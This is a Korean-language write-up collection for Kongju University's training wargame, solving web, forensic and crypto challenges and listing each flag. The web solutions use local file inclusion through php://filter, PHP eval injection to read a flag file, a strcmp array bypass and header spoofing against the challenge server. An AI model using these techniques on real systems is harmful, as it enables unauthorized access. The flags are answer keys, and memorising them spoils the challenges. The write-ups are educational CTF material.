# 공주대학교 정보보호영재교육원 Wargame



~~올클잼 :grin:~~

공주대 여러분들 중 라업쓰실거 있으시면 PR 하시면 머지해드립니다

밑에 작년이나 재작년에 출제된 문제들에는 배지를 달아두었으니 참고해주시면 감사하겠습니다.

## Badges

*  2018년 공주대 CTF에 출제된 문제
*  2017년 공주대 CTF에 출제된 문제
*  정상적인 플래그가 인증이 되지 않는 문제

## Table of Contents

* [Web](#web)
  * [Basic (50pt)](#basic-50pt)
  * [Connect (150pt)](#connect-150pt)
  * [Find (300pt)](#find-300pt)
  * [Web1_Project3 (200pt)](#web1_project3-200pt)
  * [Web2_Project3 (200pt)](#web2_project3-200pt)
  * [Web3_Project3 (200pt)](#web3_project3-200pt)
  * [Web4_Project3 (200pt)](#web4_project3-200pt)
  * [Web5_Project3 (200pt)](#web5_project3-200pt)
  * [18_web1 (50pt)](#18_web1-50pt)
  * [18_web2 (100pt)](#18_web2-100pt)
  * [18_web3 (100pt)](#18_web3-100pt)
  * [18_web4 (100pt)](#18_web4-100pt)
  * [18_web5 (200pt)](#18_web5-200pt)

* [Forensic](#forensic)
  * [ForensicPower (150pt)](#forensicpower-150pt)
  * [Decompress (300pt)](#decompress-300pt)
  * [Trust (500pt)](#trust-500pt)
  * [forensic1_Project3 (200pt)](#forensic1_project3-200pt)
  * [forensic2_Project3 (200pt)](#forensic2_project3-200pt)
  * [forensic3_Project3 (200pt)](#forensic3_project3-200pt)
  * [USB_Project3 (200pt)](#usb_project3-200pt)
  * [18_forensic1 (150pt)](#18_forensic1-150pt)
  * [18_forensic2 (100pt)](#18_forensic2-100pt)
  * [18_forensic3 (100pt)](#18_forensic3-100pt)
  * [18_forensic4 (150pt)](#18_forensic4-150pt)

* [Crypto](#crypto)
  * [Crypto2 (300pt)](#crypto2-300pt)
  * [Crypto1_Project3 (200pt)](#crypto1_project3-200pt)
  * [Crypto2_Project3 (200pt)](#crypto2_project3-200pt)
  * [Crypto3_Project3 (200pt)](#crypto3_project3-200pt)
  * [18_crypto1 (50pt)](#18_crypto1-50pt)
  * [18_crypto2 (100pt)](#18_crypto2-100pt)
  * [18_crypto3 (100pt)](#18_crypto3-100pt)
  * [18_crypto4 (100pt)](#18_crypto4-100pt)

* [Pwnable](#pwnable)
  * [Pwnable1 (100pt)](#pwnable1-100pt)
  * [Pwnable2 (200pt)](#pwnable2-200pt)

* [Network](#network)
  * [Login (200pt)](#login-200pt)
  * [network1_Project3 (200pt)](#network1_project3-200pt)
  * [network2_Project3 (200pt)](#network2_project3-200pt)
  * [network3_Project3 (200pt)](#network3_project3-200pt)
  * [network4_Project3 (200pt)](#network4_project3-200pt)
  * [network5_Project3 (200pt)](#network5_project3-200pt)
  * [18_network1 (50pt)](#18_network1-50pt)
  * [18_network2 (100pt)](#18_network2-100pt)
  * [18_network3 (150pt)](#18_network3-150pt)
  * [18_network4 (200pt)](#18_network4-200pt)

* [Reversing](#reversing)
  * [Reversing1 (100pt)](#reversing1-100pt)
  * [Reversing2 (150pt)](#reversing2-150pt)
  * [number (200pt)](#number-200pt)
  * [endecoded (150pt)](#endecoded-150pt)
  * [rrrr (300pt)](#rrrr-300pt)
  * [reversing1_Project3 (200pt)](#reversing1_project3-200pt)
  * [reversing2_Project3 (200pt)](#reversing2_project3-200pt)
  * [reversing3_Project3 (200pt)](#reversing3_project3-200pt)
  * [reversing4_Project3 (200pt)](#reversing4_project3-200pt)
  * [reversing5_Project3 (200pt)](#reversing5_project3-200pt)
  * [reversing6_Project3 (200pt)](#reversing6_project3-200pt)
  * [18_reversing1 (150pt)](#18_reversing1-150pt)
  * [18_reversing2 (100pt)](#18_reversing2-100pt)
  * [18_reversing3 (100pt)](#18_reversing3-100pt)
  * [18_reversing4 (200pt)](#18_reversing4-200pt)

* [Misc](#misc)
  * [Forest (10pt)](#forest-10pt)
  * [See (10pt)](#see-10pt)

---

## Web

### Basic (50pt)

```
Find the flag this page
Flag Structure : flag is {real flag}
```

이 페이지에 플래그가 숨겨져 있다고 한다.

Ctrl+U로 소스보기를 이용해서 플래그를 알아내면 된다.

```html
<!-- 중략 -->
<div class="row">
    <div class="col-lg-12 text-center">
        Find the flag this page</br>
        Flag Structure : flag is {real flag}
        <!--flag is {W3b_is_S1mp1e}-->
        </form>
    </div>
</div>
<!-- 중략 -->
```

```
FLAG: W3b_is_S1mp1e
```

### Connect (150pt)

```
Referer : wantconnection
User-Agent : iwant!!!!
Go!
```

저기에 있는 조건대로 헤더를 만들어서 보내면 될것같다.

cURL로 풀면 쉬울것 같긴한데 잘 모르니까 python requests로 푼다.

```python
import requests
headers = {
  'user-agent': 'iwant!!!!',
  'referer': 'wantconnection'
}
req = requests.get('http://wargame_sec.kongju.ac.kr/web/connect/connect.php', headers=headers)
print(req.text)
```

```html
<!-- 중략 -->
<div class="row">
    <div class="col-lg-12 text-center">
        Key is Us3r_Ag3nt_@nd_R3f3r3r
    </div>
</div>
<!-- 중략 -->
```

```
FLAG: Us3r_Ag3nt_@nd_R3f3r3r
```

### Find (300pt)

```
1000점을 만들면 Flag가 나온다!
1000을 만들어 주세요!
Prob
```

소스를 보니까 hidden input이 있다.



딱 보니 base64인것 같다.
Submit 버튼이 없으니 일단 F12를 누르고 Console탭에 들어간 후 다음을 실행시키자.

```javascript
document.querySelector('form').submit();
```

포인트가 1이 추가 되었다. 그러면 이걸 계속 반복하면 될것 같지만, 아쉽게도 Console에서는 불가능하니 python으로 해결하자.

PHP 세션ID도 필요 할것 같으니 쿠키에 넣고 돌려주자

```python
import requests
from base64 import b64encode

for i in range(1001):
    req = requests.post('http://wargame_sec.kongju.ac.kr/web/find/prob.php', data={'HaHa': b64encode(str(i).encode())}, cookies={'PHPSESSID': 'jcrcp6kp5ksl2shh1g6b2esei3'})

    if i != 1000:
      print(req.text[0:150])
    else:
      print(req.text)
```

```
Flag is W1nn3r_C0ngr4tur4t1on</br>Prize - Point 1000 : Flag</br>Your Point : 1000<form method='POST' action='prob.php'><input type='hidden' name='HaHa
Prize - Point 1000 : Flag</br>Your Point : 1001<form method='POST' action='prob.php'>
```

```
FLAG: W1nn3r_C0ngr4tur4t1on
```

### Web1_Project3 (200pt)




#### 소스코드
```html
<body>
    <div class="login_box">
        <div class="box_title">
            <span>관리자로그인</span>
        </div>
        <div class="login_form">
            <form method="post">
                <input name="id" type="text" class="login_id" placeholder="ID"/><br />
                    <input name="pw" type="password" class="login_pw" placeholder="PW"/><br />
                    <input type="submit" value="로그인">
            </form>
        </div>
        <div class="status">
                    </div>
    </div>
</body>
<!--
Test Account : admin/admin123
    -->
```

뭔가 굉장히 로그인 하고 싶어진다.

ID를 `admin`으로 하고 비밀번호를 `admin123`으로 해주면 됩니다.




```
FLAG: Unc0mpleted_Devel0pment
```

### Web2_Project3 (200pt)

처음 URL에 접속하면 다음과 같이 뜬다.

```
Plz POST me T.T
```

그러면 POST로 해보자.


```
Python 3.7.0 (v3.7.0:1bf9cc5093, Jun 27 2018, 04:06:47) [MSC v.1914 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> response = requests.post('http://wargame_sec.kongju.ac.kr/web/web2_DJU/index.php')
>>> response.text
'<!DOCTYPE html>\n<html>\n\t<head>\n\t\t<title>web02</title>\n\t</head>\n\t<body>\n\t\tKEY is : p0s7_m3_1f_y0u_can\t</body>\n</html>\n'
>>>
```

```
FLAG: p0s7_m3_1f_y0u_can
```

### Web3_Project3 (200pt)

페이지에 들어가면 다음과 같이 뜬다.

```
이 페이지에서 이미 키를 드렸습니다.
```

뭐지 하고 개발자 도구에서 Network 탭에 들어가니 Response Header에 플래그가 담겨져 있었다.



```
FLAG: thisisKey
```

### Web4_Project3 (200pt)



페이지를 돌아다녀 보면 URL의 쿼리 스트링중 game이 바뀌는 것을 알수 있다.

```
http://wargame_sec.kongju.ac.kr/web/web4_DJU/index.php?game=lol
```

`http://wargame_sec.kongju.ac.kr/web/web4_DJU/lol.php`의 URL로 접속하면 공통된 부분을 제외한 부분만이 담겨져 있는것을 알 수 있다.

저 game 파라미터에 flag을 넣어보았다.



```
FLAG: L0cal_F1l3_1nclus10n!!
```

### Web5_Project3 (200pt)



PHP Wrapper을 사용하면 LFI를 할 수 있다. base64로 해도 되고 rot13으로도 해도 되는데 그냥 base64가 편해서 base64로 했다.

보아하니 따로 플래그 파일이 있는것이 아니고 저 `index.php` 파일 안에 플래그가 있어 보이니까 index.php를 base64 encode 했다.

```
php://filter/convert.base64-encode/resource=index.php
```



이걸 base64 decode 하면 다음과 같은 소스 코드가 나온다!

```php
<?php
    // Key is : LFI_WITH_BASE64_IS_VERY_DANGEROUS_!
?>
<html>
    <head>
        <title>web05</title>
        <style>
            html, body{
                width: 100%;
                margin: 0;
                padding: 0;
                text-align: center;
            }
            body{
                margin-top: 40px;
            }
            .output{
                width: 800px;
                height: 120px !important;
                border: 1px solid #aaa;
                margin: 0 auto 20px auto;
                overflow-y: scroll;
            }
            .source{
                width: 504px;
                margin: 20px auto;
            }
        </style>
    </head>
    <body>
        <h1>LFI (Local File Inclusion)</h1>
        <form method="get">
        <input type="text" name="url"/>
        <input type="submit" value="ViewFile">
        </form>
        <div class="output">
            <?php
                if(isset($_GET["url"]) && !empty($_GET["url"])){
                    $escape_pattern = array("etc","passwd", "ini", "%", "/");
                    if(in_array($_GET["url"], $escape_pattern)){
                        echo "No Hack~!";
                        exit;
                    }
                    if(!file_exists($_GET["url"])){
                        echo "No File Exists!\n";
                    }
                    include $_GET["url"];
                }else if(isset($_GET["url"]) && empty($_GET["url"])){
                    echo "Empty!";
                }
            ?>
        </div>
        <hr>
        <div class="source">
            index.php SOURCE<br />
            <?php
                include "./source.html";
            ?>
        </div>
    </body>
</html>
```

```
FLAG: LFI_WITH_BASE64_IS_VERY_DANGEROUS_!
```

### 18_web1 (50pt)

 



참 고맙게도 `var_dump` 한 값을 보여준다. 그러면 아무 힌트도 없지만, 공주대 CTF 당시에는 대회 전 힌트에서 `$GLOBALS` 힌트를 주었으니 그걸로 풀면 된다.

```
http://wargame_sec.kongju.ac.kr/web/18_web1/index.php?args=GLOBALS
```


```
FLAG: B0sSBaby!
```

### 18_web2 (100pt)

 

닫혀있다. 근데도 라업은 올릴거다.



개꿀 아님미까...?

`$_REQUEST`는 POST로 보낼때 폼 데이터를 가지고 있다.

아마 `$flag`에 플래그가 담겨져 있을테니 그렇게 해보자.
```
Python 3.7.0 (v3.7.0:1bf9cc5093, Jun 27 2018, 04:06:47) [MSC v.1914 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': '$flag'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(14) "flag not here!"\n'
>>>
```
플래그는 여기에 없나보다. 그럼 수상한 flag2.php를 들여다 보자.

```
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': 'file_get_contents(\'flag2.php\')'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(62) "<?php \n$flag ="flag not here!";\n\n// flag : C0mmeDesGarcons!;\n "\n'
>>>
```

```
FLAG: C0mmeDesGarcons!
```

지금은 작동하지 않을테지만 리모트쉘 처럼 될 수 있어서 막힌거다.

하는 방법은 안 알려줄거다.

### 18_web3 (100pt)

 



그때 어떻게 풀었는지는 기억 안나는데 지금 보니까 그냥 Guess! 버튼 누르니까 되더라..



```
FLAG: danbi!
```

### 18_web4 (100pt)

 



#### 소스코드
```php
<!DOCTYPE html>
<html>
<head>
    <title>level2</title>
    <link href='style.css' rel='stylesheet' type='text/css'>
</head>
<body>
    <?php
    require 'flag.php';

    if (isset($_GET['password'])) {
        if (is_numeric($_GET['password'])) {
            if (strlen($_GET['password']) < 4) {
                if ($_GET['password'] > 999) die('Flag: ' . $flag);
                else print '<p class="alert">Too little</p>';
            }
            else print '<p class="alert">Too long</p>';
        }
        else print '<p class="alert">Password is not numeric</p>';
    }
    ?>
    <section class="login">
        <div class="title">
            <a href="./index.txt">Level 2</a>
        </div>
        <form method="get">
            <input name="password" placeholder="Password" required="" type="text"><br>
            <input type="submit">
        </form>
    </section>
</body>
</html>
```

999를 넘겨야 하지만 4글자를 넘기면 안된다. 라는 조건이 있다.

이 경우에는 Exponential Notation(지수 표기법)을 사용하면 된다.
3글자 안에서 만들수 있는 가장 큰수는 `9e9` 이니, 이걸 입력하면 된다.



```
FLAG: yeeZY_BOost
```

### 18_web5 (200pt)

 



로그인 창에 들어가보면 ID가 본인의 IP로 되어있고, PS는 비어져 있다. 소스도 같이 제공되는데 로그인을 처리하는 소스를 보자.

```php
<?php
    include("./otp_util.php");
    $flag = file_get_contents($flag_file);

    if (isset($_POST["id"]) && isset($_POST["ps"])) {
        $password = make_otp($_POST["id"]);
        sleep(3); // do not bruteforce

        if (strcmp($password, $_POST["ps"]) == 0) {
            echo "welcome, <b>".$_POST["id"]."</b><br />";
            echo "<input type='button' value='back' onclick='history.back();' />";

            if ($_POST["id"] == "127.0.0.1") {
                echo "<hr /><b>".$flag."</b><br />";
            }
        } else {
            echo "<script>alert('login failed..');history.back();</script>";
        }
    }
?>
```

일단 `strcmp`로 `ps`를 비교하니까 필드값을 `ps[]`로 고치면 되겠고, 딱히 `id`도 IP 검사를 안하니까 readonly더라도 소스를 고쳐서 Request 보내면 되겠다.

크롬 개발자 도구로 소스를 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="XXX.XXX.XXX.XXX" readonly=""><br>
    PS : <input type="password" name="ps"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

다음과 같이 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="127.0.0.1" readonly=""><br>
    PS : <input type="password" name="ps[]"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

그리고 나서 요청을 보내면 된다.



```
FLAG: Brann@@@@U_Web
```

---

## Forensic
### ForensicPower (150pt)
PPT 파일이 주어진다.

오피스 파일들은 대부분 zip으로 압축된다. 압축을 풀어보자.

`ppt/media/` 경로로 들어가면 파일이 하나 더 주어진다.



```
FLAG: Funny_Forensic
```

### Decompress (300pt)


끝이 `==`로 끝나는거 봐서 base64인것 같다. 디코딩해보자.    

```python
import base64
data = open("Prob", "rb").read()
decoded = base64.b64decode(data)
open("Prob-decoded", "wb").write(decoded)
```

디코딩 한것을 DIE에 돌려보면 다음과 같이 나온다.



확장자를 `.gz`로 바꾸고 압축을 해제하면 다음과 같이 나온다.



저 `3` 파일을 DIE에 돌려보면 또 다음과 같이 나온다.



그러면 이번에는 Python zlib 라이브러리로 Decompress 해보자.

```python
import zlib

open('3-decompressed', 'wb').write(zlib.decompress(open('3', 'rb').read()))
```

그 다음 또또 DIE로 돌려보면 다음과 같이 나온다.


압축을 풀어주자.



또, DIE로 돌려보자.



`.7z`로 바꾼뒤에 압축을 풀어보자.



(!!!)



```
FLAG: C0mpr3ssi0n_F1le
```

### Trust (500pt)

다음 BMP 파일이 주어진다.


문제 설명에 다음과 같이 나와있다.

```
Trust, But Don't believe the header
```

헤더를 믿지 말라고 했으니까 BMP 헤더 구조를 한번 살펴보자.


이 파일이 가장 잘 나와있다.

우리는 height을 건드려서 숨겨진 것들을 찾을것이다.

보통 width는 안쓴다. 왜나하면 width를 늘리게 되면 나머지 것들이 따라와서 파일이 이상하게 되기 때문이다.




이렇게 적당히 `0x40`으로 바꿔주면 bmp 파일에는 이렇게 나온다.


```
FLAG: HAHAHA_HEADER_REDAEH_AHAHAH
```

### forensic1_Project3 (200pt)

그냥 오픈스테고 같아서 0.7.3 버전으로 돌렸다.



근데 구버전이라고 한다. 대부분 구버전이라고 뜨면 0.5.2 버전으로 하면 잘 된다. 알고리즘이 그 뒤로 바뀌었나보다 ㅇㅅㅇ



됐다!



```
FLAG: White Shirts
```

### forensic2_Project3 (200pt)

jpg 파일이 주어지는데 열리지 않는다.

DIE로 까보자.



PDF다? 확장자를 `.pdf`로 바꾸고 열어보았다.



```
FLAG: poweroverwhelming
```

### forensic3_Project3 (200pt)

pptx로 확장자를 변환 해준 다음 오피스로 들어가서 복구 해주면 된다!


???



괘꿀죔

```
FLAG: q!@#$%7
```

### USB_Project3 (200pt)


본 문제는 세문제로 나뉘어져 있습니다.

```
종근이와 삼식이는 평소 친한 친구 사이이다.
어느 날, 컴퓨터 시간에 삼식이가 USB를 컴퓨터에 꽂고 그냥 가버렸다.
USB를 발견한 종근이는 그 USB가 삼식이 USB라는 사실을 알고 있던 터라 삼식이에게 가져다 줄려고 
하였지만, 가져다 준다는 사실을 그만 잊어버리고 수업이 마칠 때까지 주지 못하여 내일 주기로 결심하였다.
집으로 온 종근이는 평소 포렌식에 관심이 있던 터라 삼식이의 USB를 뒤져보기 시작하는데...
```

파일로 E01 파일(FTK Imager로 분석할 수 있는 파일)이 주어진다.

#### 1번 문제

```
삼식이는 평소 야구팬이라 야구동영상을 항상 USB에 가지고 다닌다.
동영상을 찾아라!
```



저 baseball.mp4를 다운받는다.

하지만 파일이 문제가 생겼다면서 안된다.

나는 툴키디니까 `Stellar Pheonix Video Repair` 라는 툴을 써서 복구 할거다.

돈이 없어서 무료버전을 쓰고 있는데 플래그를 확인하는데는 문제가 되지 않는다.

미리보기를 하면 ~~익숙한~~ FBI Warning이 뜬다음에 **야**구 **동**영상이 뜨면서 `f6iwarin9`이라는 플래그가 뜨게 된다.

```
FLAG: f6iwarin9
```

#### 2번 문제

```
삼식이는 평소 좋아하던 미영이에게 고백하기 위해 러브레터를 작성해 파일로 숨겨놓았다고 한다.
숨겨놓은 러브레터를 찾자!
```

삼식폴더에 `2015`에 들어가면 일기.docx가 있는데 꽤 수상해보인다.



별거 없어보이지만 문서 끝에를 다른 색으로 바꾸면 다음과 같이 나온다.



저 비밀번호를 `2016/소중한/etc`에 들어가서 `갈매기.zip`를 추출해보자.



그리고 나서 비밀번호를 입력 하면 `loveletter.pdf`가 나온다.



:grin:

```
FLAG: Love9Letter!
```

#### 3번 문제

`삼식폴더/2016/` 폴더에 있는 `체스.exe`를 열면 다음과 같이 나온다.



이 `20160702`를 모든 PNG 파일을 OpenStego로 돌려보면 뭐가 나올 것 같다.

모든이라고 해봤자 `삼식폴더/2016/소중한/etc/우리집.png` 하고 `삼순폴더/오빠들/박보검.png` 밖에 없다. 한번 돌려보자.



`박보검.png`을 해보니까 된다.



```
FLAG: 386
```

### 18_forensic1 (150pt)


`DHL.zip` 파일을 압축 해제해보면

```
 DHL.zip
 ├ 우체통.png
 └ readme.txt
```
이렇게 나온다.

**우체통.png**



**readme.txt**

```
우체통 안에...
```

PNG니까 일단 OpenStego로 돌려보자!


이게 나온다.

저 검정색 머시기가 굉장히 불편해보인다.

7x7 인거 보니까 뭔가 아스키 코드가 들어갈 만해 보인다.

검정색을 1, 하얀색을 0으로 바꿔서 계산해보자.

빠르게 파이썬 코드로 짜봤다.

```python
s = """
1001111
1101110
1100101
1101101
1101111
1110010
1100101
"""

for line in s.split('\n'):
    if line == '':
        continue
    
    print(chr(int(line, 2)), end='')
```

```
>>> Onemore
```



한번 더 OpenStego로 돌려보자. 사실 저 파일 확장자는 JPG로 되어있지만 헤더는 PNG다(!)



뒤에는 매트릭스(Matrix, 행렬)가 배경이고 가운데에는 곱하기 모양이 나와있다! 그래서 행렬곱을 해봤다.

```
1 0 0 0 3 2 3
3 3 0 2 2 3 1
2 3 0 2 2 3 1
1 1 0 0 1 0 0
2 2 0 1 0 1 0
3 3 0 2 2 3 1
1 1 0 0 0 1 0
```

이렇게 나오지만 0 이외의 수들은 1로 바꿔야 겠다.

그다음 위에 코드로 다시 돌려보면..?

```
>>> Goodjob
```

```
FLAG: Goodjob
```

### 18_forensic2 (100pt)


나중에 풀거다.

그래도 플래그는 옛다

```
FLAG: MiSsloNc0mPiEte
```

### 18_forensic3 (100pt)

 

> 2016 Google CTF에 출제된 문제와 **정확히** 똑같다. 심지어 문제설명에 바이너리까지 (기껏 해봐야 파일명 바꾼거)

`big-deal.gz` 파일을 주지만 gzip으로는 압축된 것 같지 않아보인다.



PCAP 파일인 것 같다.

근데 CTF 문제에서는 설명에서 이렇게 나온다.

```
Sometimes the answer is immediately obvious, sometimes its obscured. Find the answer in here.
```

그냥 strings 해서 풀 수 있을거다.

```
devon@DESKTOP-CIPDIIG MINGW64 ~/Downloads
$ strings big-deal.gz | egrep ".{10,}" | head
NBDMAGICj0 W
=3IHAVEOPTj0 W
=3exportj0 W
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
gfxdrivers
```

여기서 `Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9` 이걸 base64로 풀면 나온다.

```
FLAG: CTF{betterfs.than.yours}
```

### 18_forensic4 (150pt)


나중에 풀거다. 하지만 플래그는 던져드림 ><

```
FLAG: Con9ratulati0n!
```

## Crypto
### Crypto2 (300pt)

```
Ke agrdvfegtdjp, ccvfagrxhb kj rwx dtfatlg qw ccvcfzlv fsujyvxg qi gcyctdyibcp zl hnqj r upr hjrr dgza rsiactzxtw dcirxxg erl gxof zr. Tgqtpnibcp umtl bqk mu bhuvju ifgmccm wpkcgvsrkgdg, pwk btgwgj rwx agjqpzs eflixbv km ias kertkqggrdk. Wp rl tgqtpnibcp jawxag, kft bbvvlsxr efkbnbktyibcp zluhforrxhb qi ktlgcxc, gxtgiptw hq rq eeokertqh, kj ccvfagrtw iuzlv tb geagrdvzmc tzifpxmvo, xccxfckgcz qkgftkhgor iaov tyc hbnp zt kscu gu wseiwemsf. Wmg mseylxvon icplcpj, yc xbeiwemwqe qrasov shnoncw jlsu r nhxiff-ppgrqd ccvfagrxhb mvw vxbgiyixr dp yc tzifpxmvo. Zr xl wp gpxgqkgjt icujgqes vf btvfagr ias ovqhtug ngiacwk ndlggjqxgu vyc zxm, dlr, uhf c ncae-rgjgvgsf vlrkmrkgdg geycbx, zciet vcogsithkflpe fgjmjkqgj ycw gmzja tfg icfnwtvb. Pg owkfdkwbvb gxqkggtgh erl ttgkcw sxqtpni mvg dchloiv uxmv vyc zxm rimkbrgu zn mvg fpxzwprrdk hq icrbdkvlil, pwk ldm hq llpnhjfpxssf zlixfevnihfu. Wjpz wu 1ER3GLH3NC4 

Hint : Key length is 6
```

구글에 `cipher key length 6` 같이 검색하면 비제네르 암호(Vigenère cipher)를 사용 할 수 있다는 것을 알 수 있다.

`vigenere cipher decoder with key length` 라고 구글링 하면 [다음 사이트](https://www.guballa.de/vigenere-solver)가 나오게 된다.

거기에 암호문을 넣고 language를 English로, key length를 6으로 두고 돌리면 다음과 같이 나온다.



```
It is in principle possible to decrypt the message without possessing the key, but, for a well-designed encryption scheme, large computational resources and skill are required. An authorized recipient can easily decrypt the message with the key provided by the originator to recipients, but not to unauthorized interceptors. Flag is 1NT3RST3LL4
```

```
FLAG: 1NT3RST3LL4
```

### Crypto1_Project3 (200pt)

```
너는 기본이 되있니? 

SGVsbG8sIFdvcmxkIQ== 
```

아마도요..?
==로 끝나는거 보니까 base64인것 같다.

사이트 들어가기도 귀찮으니까 쉘켜서 풀자.

```shell
$ echo "SGVsbG8sIFdvcmxkIQ==" | base64 -d
Hello, World!
```

```
FLAG: Hello, World!
```

### Crypto2_Project3 (200pt)


```
해석하시오!! 

73 32 108 111 118 101 32 121 111 117 33 32 77 97 109 97
```

누가 봐도 아스키 같다. 하나하나 하는 흑우 읎제..?

파이썬으로 돌리자.

```python
s = '73 32 108 111 118 101 32 121 111 117 33 32 77 97 109 97'
print(''.join(map(lambda x: chr(int(x)), s.split(' '))))

# I love you! Mama
```

플래그가 나온다. 왠지 플래그에서 폰케알 느낌이 스멀스멀 난다.

```
FLAG: I love you! Mama
```

### Crypto3_Project3 (200pt)


```
어떠한 16진수의 문자를 0xDC2A 로 암호화하였더니 0x2FF2 라는 값이 나왔다. 
암호화하기 전의 16진수의 문자를 알아내라!(답을 입력할 때 0x도 포함시켜야합니다.) 
```

16진수를 다른 키 없이 연산 또는 역연산 할 수 있는건 XOR 뿐이다. (근데 솔직히 XOR을 **암호화** 한다고 하기에는 조금 그렇..지 않나 싶다)

무튼 XOR의 역연산은 XOR이니까 그렇게 연산해보면 플래그가 나온다.

```python
>>> hex(0xDC2A ^ 0x2FF2)
'0xf3d8'
```

```
FLAG: 0xF3D8
```

### 18_crypto1 (50pt)

 

```
다음 암호문을 해독하시오.(key값 입력 시 단어 사이(공백)에는 space 대신 _를 입력하세요) 

Gurxrlvfgborbeabggborgungvfabceboyrz.
```

누가 봐도 `rot13`일 것 같다.

[rot13.com](https://rot13.com/)에 들어가면 쉽게 rotX를 쉽게 decode 할 수 있다.

```
Thekeyistobeornottobethatisnoproblem.
```

적당히 공백 주면,

```
The key is to be or not to be that is no problem.
```

그러면 플래그는 다음과 같다.

```
FLAG: to_be_or_not_to_be_that_is_no_problem
```

이어야 하는데 인증 가능한 플래그는 다음과 같다.

```
FLAG: to_be_or_not_to_be_that_is_problem
```

:thinking:

불편하네요 ㅇㅅㅇ

### 18_crypto2 (100pt)


```python
import random
import copy


def cbc_genkey():
    key=[]
    for n in range(9):
        key.append(random.randint(0,1))
    return key


def cbc_encrypt(keybits, ivbits, plain):
    plainbits=[]
    cipherbits=[]
    for i in plain:
        temp=bin(ord(i))
        for j in range(7):
            plainbits.append(int(temp[j+2]))
            		
    for i in range(len(plainbits)/12):
        pblock=[]
        for j in range(12):
            pblock.append(plainbits[12*i+j]^ivbits[j])
        ivbits=sdes_encrypt(keybits,pblock)
        cipherbits[i*12:i*12+12]=ivbits

    temp='0b'
    cipher=''
    j=0
    for i in cipherbits:
        if j%7==0 and j!=0:

            cipher+=chr(int(temp,2))
            temp=''
            temp+='0b'      
        temp += str(i)
        j+=1
        
    cipher+=chr(int(temp,2))    
    return cipher

def cbc_decrypt(keybits, ivbits, cipher):
    
    plainbits=[]
    cipherbits=[]

    for i in cipher:
        temp=bin(ord(i))   
        for j in range(len(temp)-2):
            while len(temp)!=9 and j==0:
                cipherbits.append(0)
                temp+='0'
            cipherbits.append(int(temp[j+2]))
    
    for i in range(len(cipherbits)/12):
        temp=sdes_decrypt(keybits,cipherbits[12*i:12*i+12])
        for j in range(12):
            plainbits.append(temp[j]^ivbits[j])
        ivbits=copy.deepcopy(cipherbits[12*i:12*i+12])


    temp='0b'
    plain=''
    j=0
    for i in plainbits:
        if j%7==0 and j!=0:
            plain+=chr(int(temp,2))
            temp=''
            temp+='0b'      
        temp += str(i)
        j+=1
    plain+=chr(int(temp,2))    
    return plain


sbox1=[[[1,0,1],[0,1,0],[0,0,1],[1,1,0],[0,1,1],[1,0,0],[1,1,1],[0,0,0]],
       [[0,0,1],[1,0,0],[1,1,0],[0,1,0],[0,0,0],[1,1,1],[1,0,1],[0,1,1]]]

sbox2=[[[1,0,0],[0,0,0],[1,1,0],[1,0,1],[1,1,1],[0,0,1],[0,1,1],[0,1,0]],
       [[1,0,1],[0,1,1],[0,0,0],[1,1,1],[1,1,0],[0,1,0],[0,0,1],[1,0,0]]]

def sdes_compute_function(rblock,roundkey):
    xor=[]
    expen=rblock[0:2]+rblock[3:4]+rblock[2:4]+rblock[2:3]+rblock[4:6]
    for i in range(8):
        xor.append(expen[i]^roundkey[i])
    L=xor[0:4]
    R=xor[4:8]
    s1=sbox1[L[0]][L[1]*4+L[2]*2+L[3]]
    s2=sbox2[R[0]][R[1]*4+R[2]*2+R[3]]
       
    return s1+s2

def sdes_encrypt(key,pblock):
    rblock=pblock[6:12]
    lblock=pblock[0:6]
    for i in range(3):
        if (i+8)%9>=7:
            roundkey=key[i%9:(i+8)%9]
        else:
            roundkey=key[i%9:9]+key[0:(i+8)%9]
        if i==8:
            roundkey=key[8:9]+key[0:7]
		
